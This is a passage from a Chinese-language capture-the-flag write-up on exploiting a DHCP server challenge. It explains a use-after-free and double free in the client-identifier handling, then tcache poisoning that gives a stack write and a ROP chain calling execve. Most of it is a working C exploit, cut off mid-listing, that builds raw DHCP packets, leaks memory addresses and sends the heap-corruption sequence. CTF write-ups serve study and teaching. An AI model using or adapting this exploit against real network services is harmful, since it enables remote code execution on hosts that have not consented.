

至此，我们就有了控制堆块申请和释放的原语：

* DHCPREQUEST:
  * `malloc(uid_len)`
  * `free(uid)`
* DHCPRELEASE:
  * `free(uid)`
* DHCPINFORM:
  * `malloc(uid_len)`

### 漏洞原理

1. DHCPRELEASE：free释放`old_lease->uid`，使chunk进入tcache
2. DHCPREQUEST：malloc将chunk又申请回`new_lease->uid`，而后free再次释放`old_lease->uid`，使chunk进入tcache，触发UAF
3. DHCPRELEASE：free释放`old_lease->uid`，第三次使chunk进入tcache，触发Double Free

### 利用思路

1. 发送DHCPREQUEST，申请新的lease，uid为chunk0

2. 发送DHCPRELEASE，释放chunk0

3. 发送DHCPREQUEST，申请回chunk0，再释放chunk0，构造UAF

4. 发送DHCPRELEASE，再次释放chunk0，构造double free

   > 题目给的libc-2.27.so版本比较老，可以直接释放两次在tcache构造double free，不会造成崩溃

5. 发送2次DHCPINFORM，伪造chunk0的tcache next指针，指向栈上返回地址

6. 发送DHCPINFORM，申请到栈上返回地址处内存，写入ROP

```c {hide=true}
void exploit() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;
    dhcp_req_t req[4] = { 0, };
    dhcp_req_t tmp_req = { 0, };

    buf = malloc(0x1000);
    for (size_t i = 0; i < 3; i++) {
        req[i].addr_in.sin_addr.s_addr = src_addr_in.sin_addr.s_addr + htonl(i+1);
        req[i].uid_type = 0;
        memset(req[i].uid, '0'+i, 0x47);
        req[i].uid_len = strlen(req[i].uid);
    }

    // malloc 0x50 chunk0-2
    for (size_t i = 0; i < 3; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_request_packet(buf, &buf_len, req[i]);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc 0x50 chunks.\n");
    
    // free chunk0
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // alloc and free chunk0 (UAF)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_request_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);

    // free chunk0 (double free)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // fake 0x50 tcache next
    memset(&tmp_req, 0, sizeof(dhcp_req_t));
    tmp_req.addr_in.sin_addr.s_addr = req[2].addr_in.sin_addr.s_addr;
    tmp_req.uid_len = 0x47;

    uint64_t ret_addr = stack_addr - 0x20;
    tmp_req.uid_type = ret_addr&0xff;
    *(uint64_t *)tmp_req.uid = ret_addr>>8;
    
    for (size_t i = 0; i < 2; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_inform_packet(buf, &buf_len, tmp_req);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc chunk0, fake next.\n");

    // write rop
    uint64_t prdi = elf_base + 0x0000000000019d21,
             prsi = elf_base + 0x000000000001b954,
             prdx = elf_base + 0x00000000000bc28e;
    uint64_t execve_plt = elf_base + 0x0000000000019308;
    char *cmd = "/gflag";
    uint64_t rop[0x48/8] = {
        prdi, ret_addr + 0x38,
        prsi, 0,
        prdx, 0,
        execve_plt,
        0, 0
    };
    memcpy(&rop[7], cmd, strlen(cmd));

    memset(tmp_req.uid, 0, sizeof(tmp_req.uid));
    tmp_req.uid_type = *(uint8_t *)rop;
    memcpy(tmp_req.uid, (uint8_t *)rop + 1, 0x47);
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_inform_packet(buf, &buf_len, tmp_req);
    send_raw_pkt(buf, buf_len);

    free(buf);
}
```


> [!error]
>
> 如果执行`/usr/bin/xcalc`弹计算器会报错`Error: Can't open display: `

# 完整Exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <sys/types.h>
// socket
#include <sys/ioctl.h>
#include <sys/socket.h>
// addr
#include <netinet/in.h> // in_addr, sockaddr_in, ...
#include <arpa/inet.h>  // inet_addr, inet_ntoa, ...
// iface
#include <linux/if_packet.h> // sockaddr_ll
#include <net/if.h>          // ifr_req
// ethernet
#include <net/ethernet.h>
#include <linux/if_ether.h>
// ip
#include <netinet/ip.h>
// udp
#include <netinet/udp.h>
// icmp
#include <netinet/ip_icmp.h>

/*-------- DHCP definations --------*/
#define DHCP_SERVER_PORT 67
#define DHCP_CLIENT_PORT 68
#define DHCP_MAGIC_COOKIE 0x63825363

#define MAX_DHCP_CHADDR_LENGTH 16
#define MAX_DHCP_SNAME_LENGTH 64
#define MAX_DHCP_FILE_LENGTH 128
#define MAX_DHCP_OPTIONS_LENGTH 312

#define BOOTREQUEST 1
#define BOOTREPLY 2

#define DHCPDISCOVER 1
#define DHCPOFFER 2
#define DHCPREQUEST 3
#define DHCPDECLINE 4
#define DHCPACK 5
#define DHCPNACK 6
#define DHCPRELEASE 7
#define DHCPINFORM 8

#define DHCP_OPTION_MESSAGE_TYPE 53
#define DHCP_OPTION_SERVER_IDENTIFIER 54
#define DHCP_OPTION_CLIENT_IDENTIFIER 61
#define DHCP_OPTION_PARAMETER_REQUEST_LIST 55
#define DHCP_OPTION_REQUESTED_IP_ADDRESS 50
#define DHCP_OPTION_END 255

#define ETHERNET_HARDWARE_ADDRESS 1        /* used in htype field of dhcp packet */
#define ETHERNET_HARDWARE_ADDRESS_LENGTH 6 /* length of Ethernet hardware addresses */

typedef struct dhcp_packet
{
    u_int8_t op;                                  /* packet type */
    u_int8_t htype;                               /* type of hardware address for this machine (Ethernet, etc) */
    u_int8_t hlen;                                /* length of hardware address (of this machine) */
    u_int8_t hops;                                /* hops */
    u_int32_t xid;                                /* random transaction id number - chosen by this machine */
    u_int16_t secs;                               /* seconds used in timing */
    u_int16_t flags;                              /* flags */
    struct in_addr ciaddr;                        /* IP address of this machine (if we already have one) */
    struct in_addr yiaddr;                        /* IP address of this machine (offered by the DHCP server) */
    struct in_addr siaddr;                        /* IP address of DHCP server */
    struct in_addr giaddr;                        /* IP address of DHCP relay */
    unsigned char chaddr[MAX_DHCP_CHADDR_LENGTH]; /* hardware address of this machine */
    char sname[MAX_DHCP_SNAME_LENGTH];            /* name of DHCP server */
    char file[MAX_DHCP_FILE_LENGTH];              /* boot file name (used for diskless
                                                     booting?) */
    uint32_t magic_cookie;                        /* DHCP */
    char options[MAX_DHCP_OPTIONS_LENGTH];        /* options */
} dhcp_packet_t;

typedef struct dhcp_req {
    struct sockaddr_in addr_in;
    uint8_t uid_type;
    uint8_t uid[0x100];
    size_t uid_len;
} dhcp_req_t;
/*------ DHCP definations end ------*/

/*-------- UDP checksum calc --------*/
struct pseudo_header
{
    u_int32_t source_address;
    u_int32_t dest_address;
    u_int8_t placeholder;
    u_int8_t protocol;
    u_int16_t udp_length;
};
/*-------- UDP checksum calc --------*/

int sock = -1;
struct sockaddr_in src_addr_in;
struct sockaddr_in server_addr_in;
struct sockaddr_ll if_addr_ll;
uint32_t xid = 0;

void init(char *iface)
{
    struct ifreq ifr;
    int ret;
    int optval = 1;

    sock = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (sock < 0)
    {
        perror("[-] socket: Socket creation failed");
        exit(EXIT_FAILURE);
    }
    printf("[*] Socket creation success.\n");

    memset(&if_addr_ll, 0, sizeof(struct sockaddr_ll));
    if_addr_ll.sll_family = PF_PACKET;
    if ((if_addr_ll.sll_ifindex = if_nametoindex(iface)) == 0)
    {
        perror("if_nametoindex");
        exit(EXIT_FAILURE);
    }

    memcpy(ifr.ifr_name, iface, IFNAMSIZ - 1);
    if (ioctl(sock, SIOCGIFADDR, &ifr) == -1)
    {
        perror("ioctl: get IP addr faild");
        close(sock);
        exit(EXIT_FAILURE);
    }
    memcpy(&src_addr_in, &ifr.ifr_addr, sizeof(struct sockaddr_in));
    printf("[*] %s IP Address: %s\n", iface, inet_ntoa(src_addr_in.sin_addr));

    if (ioctl(sock, SIOCGIFHWADDR, &ifr) == -1)
    {
        perror("ioctl: get MAC addr faild");
        close(sock);
        exit(EXIT_FAILURE);
    }
    memcpy(if_addr_ll.sll_addr, ifr.ifr_hwaddr.sa_data, ETH_ALEN);
    printf("[*] %s MAC Address: %02x:%02x:%02x:%02x:%02x:%02x\n", iface,
        if_addr_ll.sll_addr[0], if_addr_ll.sll_addr[1], if_addr_ll.sll_addr[2],
        if_addr_ll.sll_addr[3], if_addr_ll.sll_addr[4], if_addr_ll.sll_addr[5]);

    ret = setsockopt(sock, SOL_SOCKET, SO_BROADCAST, &optval, sizeof(int));
    if (ret != 0)
    {
        perror("[-] setsockopt: Could not set broadcast option on DHCP socket!");
        close(sock);
        exit(EXIT_FAILURE);
    }

    ret = setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(int));
    if (ret != 0)
    {
        perror("[-] setsockopt: Could not set reuse address option on DHCP socket!");
        close(sock);
        exit(EXIT_FAILURE);
    }

    srand(time(NULL));
}

unsigned short ip_checksum(unsigned short *buffer, int size) {
    unsigned long cksum = 0;
    while (size > 1) {
        cksum += *buffer++;
        size -= sizeof(unsigned short);
    }
    if (size) {
        cksum += *(unsigned char *)buffer;
    }
    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (unsigned short)(~cksum);
}

unsigned short udp_checksum(struct iphdr *iph, struct udphdr *udph) {
    struct pseudo_header psh;
    size_t psize = 0;
    uint8_t *buf = NULL;
    size_t udp_len = ntohs(udph->len);

    memset(&psh, 0, sizeof(struct pseudo_header));
    psh.source_address = iph->saddr;
    psh.dest_address = iph->daddr;
    psh.placeholder = 0;
    psh.protocol = IPPROTO_UDP;
    psh.udp_length = udph->len;

    psize = sizeof(struct pseudo_header) + udp_len;
    buf = calloc(psize, sizeof(uint8_t));
    memcpy(buf, &psh, sizeof(struct pseudo_header));
    memcpy(buf + sizeof(struct pseudo_header), udph, udp_len);

    return ip_checksum((unsigned short *)buf, sizeof(struct pseudo_header) + udp_len);
}

void create_dhcp_discover_packet(uint8_t *res, size_t *res_len, struct sockaddr_in req_addr_in, _Bool add_param_req_list) {
    dhcp_packet_t *dhcp_pkt = NULL;
    struct ethhdr *ethh;
    struct iphdr *iph;
    struct udphdr *udph;
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = calloc(sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t) + 1, sizeof(uint8_t));
    ethh = (struct ethhdr *)buf;
    iph = (struct iphdr *)((char *)ethh + sizeof(struct ethhdr));
    udph = (struct udphdr *)((char *)iph + sizeof(struct iphdr));
    dhcp_pkt = (dhcp_packet_t *)((char *)udph + sizeof(struct udphdr));

    // Ethernet
    memcpy(ethh->h_source, if_addr_ll.sll_addr, ETH_ALEN);
    memset(ethh->h_dest, 0xff, ETH_ALEN);
    ethh->h_proto = htons(ETHERTYPE_IP);

    // IP
    iph->version = 4;
    iph->ihl = 5;
    iph->tos = 0x10;
    iph->tot_len = htons(sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    iph->ttl = 128;
    iph->protocol = IPPROTO_UDP;
    iph->saddr = INADDR_ANY;
    iph->daddr = INADDR_BROADCAST;
    iph->check = ip_checksum((unsigned short *)iph, sizeof(struct iphdr));

    // UDP
    udph->source = htons(DHCP_CLIENT_PORT);
    udph->dest = htons(DHCP_SERVER_PORT);
    udph->len = htons(sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    udph->check = 0;

    // DHCP Discover
    dhcp_pkt->op = BOOTREQUEST;
    dhcp_pkt->htype = ETHERNET_HARDWARE_ADDRESS;
    dhcp_pkt->hlen = ETHERNET_HARDWARE_ADDRESS_LENGTH;
    dhcp_pkt->xid = htonl(xid);
    memcpy(&dhcp_pkt->chaddr, if_addr_ll.sll_addr, ETH_ALEN);
    dhcp_pkt->magic_cookie = htonl(DHCP_MAGIC_COOKIE);

    size_t i = 0;
    dhcp_pkt->options[i] = DHCP_OPTION_MESSAGE_TYPE; // DHCP Message Type
    dhcp_pkt->options[i + 1] = 1;
    dhcp_pkt->options[i + 2] = DHCPDISCOVER;
    i += 3;

    dhcp_pkt->options[i] = DHCP_OPTION_REQUESTED_IP_ADDRESS; // Requested IP address
    dhcp_pkt->options[i + 1] = 4;
    *(uint32_t *)(&dhcp_pkt->options[i + 2]) = req_addr_in.sin_addr.s_addr;
    i += 6;

    // Parameter Request List
    if (add_param_req_list) {
        memcpy(&dhcp_pkt->options[i], "7\r\001\034\002\003\017\006w\f,/\032y*", 15);
        i += 15;
    }

    dhcp_pkt->options[i] = DHCP_OPTION_END; // End

    udph->check = udp_checksum(iph, udph);

    buf_len = sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t);
    memcpy(res, buf, buf_len);
    *res_len = buf_len;

    free(buf);
}

void create_dhcp_request_packet(uint8_t *res, size_t *res_len, dhcp_req_t req) {
    dhcp_packet_t *dhcp_pkt = NULL;
    struct ethhdr *ethh;
    struct iphdr *iph;
    struct udphdr *udph;
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = calloc(sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t) + 1, sizeof(uint8_t));
    ethh = (struct ethhdr *)buf;
    iph = (struct iphdr *)((char *)ethh + sizeof(struct ethhdr));
    udph = (struct udphdr *)((char *)iph + sizeof(struct iphdr));
    dhcp_pkt = (dhcp_packet_t *)((char *)udph + sizeof(struct udphdr));

    // Ethernet
    memset(ethh->h_dest, 0xff, ETH_ALEN);
    memcpy(ethh->h_source, if_addr_ll.sll_addr, ETH_ALEN);
    ethh->h_proto = htons(ETHERTYPE_IP);

    // IP
    iph->version = 4;
    iph->ihl = 5;
    iph->tot_len = htons(sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    iph->ttl = 128;
    iph->protocol = IPPROTO_UDP;
    iph->saddr = INADDR_ANY;
    iph->daddr = INADDR_BROADCAST;
    iph->check = ip_checksum((unsigned short *)iph, sizeof(struct iphdr));

    // UDP
    udph->source = htons(DHCP_CLIENT_PORT);
    udph->dest = htons(DHCP_SERVER_PORT);
    udph->len = htons(sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    udph->check = 0;

    // DHCP Discover
    dhcp_pkt->op = BOOTREQUEST;
    dhcp_pkt->htype = ETHERNET_HARDWARE_ADDRESS;
    dhcp_pkt->hlen = ETHERNET_HARDWARE_ADDRESS_LENGTH;
    dhcp_pkt->xid = htonl(xid);
    memcpy(&dhcp_pkt->chaddr, if_addr_ll.sll_addr, ETH_ALEN);
    dhcp_pkt->magic_cookie = htonl(DHCP_MAGIC_COOKIE);

    size_t i = 0;
    dhcp_pkt->options[i] = DHCP_OPTION_MESSAGE_TYPE; // DHCP Message Type
    dhcp_pkt->options[i + 1] = 1;
    dhcp_pkt->options[i + 2] = DHCPREQUEST;
    i += 3;

    dhcp_pkt->options[i] = DHCP_OPTION_SERVER_IDENTIFIER; // Server Identifier
    dhcp_pkt->options[i + 1] = 4;
    *(uint32_t *)(&dhcp_pkt->options[i + 2]) = server_addr_in.sin_addr.s_addr;
    i += 6;

    dhcp_pkt->options[i] = DHCP_OPTION_CLIENT_IDENTIFIER; // Client Identifier
    dhcp_pkt->options[i + 1] = req.uid_len+1;  // len
    dhcp_pkt->options[i + 2] = req.uid_type;   // type
    memcpy(&dhcp_pkt->options[i + 3], req.uid, req.uid_len);
    i += req.uid_len+3;

    dhcp_pkt->options[i] = DHCP_OPTION_REQUESTED_IP_ADDRESS; // Requested IP address
    dhcp_pkt->options[i + 1] = 4;
    *(uint32_t *)(&dhcp_pkt->options[i + 2]) = req.addr_in.sin_addr.s_addr;
    i += 6;

    // Parameter Request List
    memcpy(&dhcp_pkt->options[i], "7\r\001\034\002\003\017\006w\f,/\032y*", 15);
    i += 15;

    dhcp_pkt->options[i] = DHCP_OPTION_END; // End

    udph->check = udp_checksum(iph, udph);

    buf_len = sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t);
    memcpy(res, buf, buf_len);
    *res_len = buf_len;

    free(buf);
}

void create_dhcp_release_packet(uint8_t *res, size_t *res_len, dhcp_req_t req) {
    dhcp_packet_t *dhcp_pkt = NULL;
    struct ethhdr *ethh;
    struct iphdr *iph;
    struct udphdr *udph;
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = calloc(sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t) + 1, sizeof(uint8_t));
    ethh = (struct ethhdr *)buf;
    iph = (struct iphdr *)((char *)ethh + sizeof(struct ethhdr));
    udph = (struct udphdr *)((char *)iph + sizeof(struct iphdr));
    dhcp_pkt = (dhcp_packet_t *)((char *)udph + sizeof(struct udphdr));

    // Ethernet
    memcpy(ethh->h_dest, server_mac, ETH_ALEN);
    memcpy(ethh->h_source, if_addr_ll.sll_addr, ETH_ALEN);
    ethh->h_proto = htons(ETHERTYPE_IP);

    // IP
    iph->version = 4;
    iph->ihl = 5;
    iph->tot_len = htons(sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    iph->ttl = 128;
    iph->protocol = IPPROTO_UDP;
    iph->saddr = req.addr_in.sin_addr.s_addr;
    iph->daddr = server_addr_in.sin_addr.s_addr;
    iph->check = ip_checksum((unsigned short *)iph, sizeof(struct iphdr));

    // UDP
    udph->source = htons(DHCP_CLIENT_PORT);
    udph->dest = htons(DHCP_SERVER_PORT);
    udph->len = htons(sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    udph->check = 0;

    // DHCP Discover
    dhcp_pkt->op = BOOTREQUEST;
    dhcp_pkt->htype = ETHERNET_HARDWARE_ADDRESS;
    dhcp_pkt->hlen = ETHERNET_HARDWARE_ADDRESS_LENGTH;
    dhcp_pkt->xid = htonl(xid);
    dhcp_pkt->ciaddr = req.addr_in.sin_addr;
    memcpy(&dhcp_pkt->chaddr, if_addr_ll.sll_addr, ETH_ALEN);
    dhcp_pkt->magic_cookie = htonl(DHCP_MAGIC_COOKIE);

    size_t i = 0;
    dhcp_pkt->options[i] = DHCP_OPTION_MESSAGE_TYPE; // DHCP Message Type
    dhcp_pkt->options[i + 1] = 1;
    dhcp_pkt->options[i + 2] = DHCPRELEASE;
    i += 3;

    dhcp_pkt->options[i] = DHCP_OPTION_SERVER_IDENTIFIER; // Server Identifier
    dhcp_pkt->options[i + 1] = 4;
    *(uint32_t *)(&dhcp_pkt->options[i + 2]) = server_addr_in.sin_addr.s_addr;
    i += 6;

    dhcp_pkt->options[i] = DHCP_OPTION_CLIENT_IDENTIFIER; // Client Identifier
    dhcp_pkt->options[i + 1] = req.uid_len+1;  // len
    dhcp_pkt->options[i + 2] = req.uid_type;   // type
    memcpy(&dhcp_pkt->options[i + 3], req.uid, req.uid_len);
    i += req.uid_len+3;

    dhcp_pkt->options[i] = DHCP_OPTION_END; // End

    udph->check = udp_checksum(iph, udph);

    buf_len = sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t);
    memcpy(res, buf, buf_len);
    *res_len = buf_len;

    free(buf);
}

void create_dhcp_inform_packet(uint8_t *res, size_t *res_len, dhcp_req_t req) {
    dhcp_packet_t *dhcp_pkt = NULL;
    struct ethhdr *ethh;
    struct iphdr *iph;
    struct udphdr *udph;
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = calloc(sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t) + 1, sizeof(uint8_t));
    ethh = (struct ethhdr *)buf;
    iph = (struct iphdr *)((char *)ethh + sizeof(struct ethhdr));
    udph = (struct udphdr *)((char *)iph + sizeof(struct iphdr));
    dhcp_pkt = (dhcp_packet_t *)((char *)udph + sizeof(struct udphdr));

    // Ethernet
    memcpy(ethh->h_dest, server_mac, ETH_ALEN);
    memcpy(ethh->h_source, if_addr_ll.sll_addr, ETH_ALEN);
    ethh->h_proto = htons(ETHERTYPE_IP);

    // IP
    iph->version = 4;
    iph->ihl = 5;
    iph->tot_len = htons(sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    iph->ttl = 128;
    iph->protocol = IPPROTO_UDP;
    iph->saddr = req.addr_in.sin_addr.s_addr;
    iph->daddr = server_addr_in.sin_addr.s_addr;
    iph->check = ip_checksum((unsigned short *)iph, sizeof(struct iphdr));

    // UDP
    udph->source = htons(DHCP_CLIENT_PORT);
    udph->dest = htons(DHCP_SERVER_PORT);
    udph->len = htons(sizeof(struct udphdr) + sizeof(dhcp_packet_t));
    udph->check = 0;

    // DHCP Discover
    dhcp_pkt->op = BOOTREQUEST;
    dhcp_pkt->htype = ETHERNET_HARDWARE_ADDRESS;
    dhcp_pkt->hlen = ETHERNET_HARDWARE_ADDRESS_LENGTH;
    dhcp_pkt->xid = htonl(xid);
    dhcp_pkt->ciaddr = req.addr_in.sin_addr;
    memcpy(&dhcp_pkt->chaddr, if_addr_ll.sll_addr, ETH_ALEN);
    dhcp_pkt->magic_cookie = htonl(DHCP_MAGIC_COOKIE);

    size_t i = 0;
    dhcp_pkt->options[i] = DHCP_OPTION_MESSAGE_TYPE; // DHCP Message Type
    dhcp_pkt->options[i + 1] = 1;
    dhcp_pkt->options[i + 2] = DHCPINFORM;
    i += 3;

    dhcp_pkt->options[i] = DHCP_OPTION_SERVER_IDENTIFIER; // Server Identifier
    dhcp_pkt->options[i + 1] = 4;
    *(uint32_t *)(&dhcp_pkt->options[i + 2]) = server_addr_in.sin_addr.s_addr;
    i += 6;

    dhcp_pkt->options[i] = DHCP_OPTION_CLIENT_IDENTIFIER; // Client Identifier
    dhcp_pkt->options[i + 1] = req.uid_len+1;  // len
    dhcp_pkt->options[i + 2] = req.uid_type;   // type
    memcpy(&dhcp_pkt->options[i + 3], req.uid, req.uid_len);
    i += req.uid_len+3;

    dhcp_pkt->options[i] = DHCP_OPTION_REQUESTED_IP_ADDRESS; // Requested IP address
    dhcp_pkt->options[i + 1] = 4;
    *(uint32_t *)(&dhcp_pkt->options[i + 2]) = req.addr_in.sin_addr.s_addr;
    i += 6;

    // Parameter Request List
    memcpy(&dhcp_pkt->options[i], "7\r\001\034\002\003\017\006w\f,/\032y*", 15);
    i += 15;

    dhcp_pkt->options[i] = DHCP_OPTION_END; // End

    udph->check = udp_checksum(iph, udph);

    buf_len = sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct udphdr) + sizeof(dhcp_packet_t);
    memcpy(res, buf, buf_len);
    *res_len = buf_len;

    free(buf);
}

ssize_t send_raw_pkt(uint8_t *buf, size_t buf_len) {
    ssize_t res = 0;
    res = sendto(sock, buf, buf_len, 0, (struct sockaddr *)&if_addr_ll, sizeof(if_addr_ll));
    if (res < 0) {
        perror("sendto");
        close(sock);
        exit(EXIT_FAILURE);
    }
    printf("[*] send 0x%lx bytes.\n", res);
    return res;
}

ssize_t receive_raw_pkt(uint8_t *buf, size_t buf_len) {
    ssize_t res = 0;

    res = recvfrom(sock, buf, buf_len, 0, NULL, NULL);
    if (res <= 0) {
        perror("recvfrom");
        close(sock);
        exit(EXIT_FAILURE);
    }
    printf("[*] recv 0x%lx bytes.\n", res);
    return res;
}

void hex_dump64(void* buf, size_t len) {
    uint64_t *p = (uint64_t *)buf;
    uint8_t *end = (uint8_t *)buf + len;

    puts("=====================================");
    if (len >= 0x10) {
        for (; (uint8_t *)(p+2) <= end; p+=2) {
            printf("0x%016lx 0x%016lx\n", p[0], p[1]);
        }
    }
    if (len % 0x10 >= 8) {
        printf("0x%016lx ", p[0]);
        if (len % 0x10 == 8) {
            putchar('\n');
            return;
        }
        p += 1;
    }
    if (len % 8 > 0) {
        uint64_t tmp = 0;
        for (size_t i = len % 8; i > 0; i--) {
            tmp |= p[i];
            tmp <<= 8;
        }
        printf("0x%016lx\n", tmp);
    }
    puts("=====================================");
}

_Bool is_icmp_echorequest(uint8_t *buf, size_t buf_len) {
    struct ethhdr *ethh = NULL;
    struct iphdr *iph = NULL;
    struct icmphdr *icmph = NULL;

    if (buf_len < sizeof(struct ethhdr) + sizeof(struct iphdr) + sizeof(struct icmphdr))
        return 0;

    ethh = (struct ethhdr *)buf;
    iph = (struct iphdr *)(buf + sizeof(struct ethhdr));
    icmph = (struct icmphdr *)((uint8_t *)iph + sizeof(struct iphdr));

    return (!memcmp(ethh->h_dest, "\xff\xff\xff\xff\xff\xff", ETH_ALEN))
        && (iph->protocol == IPPROTO_ICMP) 
        && (icmph->type == ICMP_ECHO);
}

uint64_t libc_base = 0,
         elf_base = 0,
         stack_addr = 0;

void leak() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = malloc(0x1000);

    do {
        sleep(2);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 0);
        send_raw_pkt(buf, buf_len);

        memset(buf, 0, 0x1000);
        do {
            buf_len = receive_raw_pkt(buf, 0x1000);
        } while (!is_icmp_echorequest(buf, buf_len));
        hex_dump64(buf, buf_len);
        stack_addr = *(uint64_t *)(buf + 0x32);
        elf_base = *(uint64_t *)(buf + 0x3a) - 0x1c168;
    } while (stack_addr < 0x7f0000000000);

    sleep(2);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 1);
    send_raw_pkt(buf, buf_len);

    memset(buf, 0, 0x1000);
    do {
        buf_len = receive_raw_pkt(buf, 0x1000);
    } while (!is_icmp_echorequest(buf, buf_len));
    hex_dump64(buf, buf_len);
    libc_base = *(uint64_t *)(buf + 0x3a) - 0x9a0b1;

    server_addr_in.sin_addr.s_addr = *(uint32_t *)(buf + 0x1a);
    printf("[*] Server IP Address: %s\n", inet_ntoa(server_addr_in.sin_addr));
    memcpy(server_mac, buf + 6, ETH_ALEN);
    printf("[*] Server MAC Address: %02x:%02x:%02x:%02x:%02x:%02x\n",
           server_mac[0], server_mac[1], server_mac[2],
           server_mac[3], server_mac[4], server_mac[5]);
    
    printf("[+] leak libc_base: %p\n", (void *)libc_base);
    printf("[+] leak elf_base: %p\n", (void *)elf_base);
    printf("[+] leak stack_addr: %p\n", (void *)stack_addr);
    free(buf);
}

void exploit() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;
    dhcp_req_t req[4] = { 0, };
    dhcp_req_t tmp_req = { 0, };

    buf = malloc(0x1000);
    for (size_t i = 0; i < 3; i++) {
        req[i].addr_in.sin_addr.s_addr = src_addr_in.sin_addr.s_addr + htonl(i+1);
        req[i].uid_type = 0;
        memset(req[i].uid, '0'+i, 0x47);
        req[i].uid_len = strlen(req[i].uid);
    }

    // malloc 0x50 chunk0-2
    for (size_t i = 0; i < 3; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_request_packet(buf, &buf_len, req[i]);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc 0x50 chunks.\n");
    
    // free chunk0
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // alloc and free chunk0 (UAF)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_request_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);

    // free chunk0 (double free)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
